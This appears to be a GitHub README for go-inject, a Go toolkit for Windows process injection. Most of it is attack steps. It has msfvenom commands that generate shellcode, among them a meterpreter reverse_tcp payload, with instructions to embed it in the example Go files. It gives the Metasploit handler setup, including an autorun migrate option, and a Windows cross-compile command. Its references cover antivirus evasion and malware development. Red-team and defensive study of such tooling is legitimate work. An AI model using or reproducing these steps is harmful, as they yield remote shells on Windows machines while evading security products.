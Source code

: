# go-inject

Process injection techniques written in Go.

## Usage

Use msfvenom to generate shellcode.

```bash
# Testing with calculator.
msfvenom -p windows/x64/exec CMD=calc.exe -f hex

# MSFVENOM
msfvenom -p windows/x64/meterpreter/reverse_tcp -f hex -o rev.hex LHOST=127.0.0.1 LPORT=4444
```

Place as payload string within one of the example .go files.

Start meterpreter listener:

```bash
use payload/windows/x64/meterpreter/reverse_tcp
set LHOST 127.0.0.1
set LPORT 4444
# For QPC injection also use: set autorunscript post/windows/manage/migrate
to_handler
```

## Build

```bash
env GOOS=windows GOARCH=amd64 go build
```

## References

* https://medium.com/@justen.walker/breaking-all-the-rules-using-go-to-call-windows-api-2cbfd8c79724
* https://labs.jumpsec.com/2019/06/20/bypassing-antivirus-with-golang-gopher-it/
* https://github.com/brimstone/go-shellcode
* https://github.com/sysdream/hershell
* https://github.com/yoda66/MalwareDevTalk
* https://posts.specterops.io/adventures-in-dynamic-evasion-1fe0bac57aa
* https://github.com/Adepts-Of-0xCC/VBA-macro-experiments/blob/main/EDRHookDetector.vba
* https://www.ired.team/offensive-security/code-injection-process-injection/apc-queue-code-injection
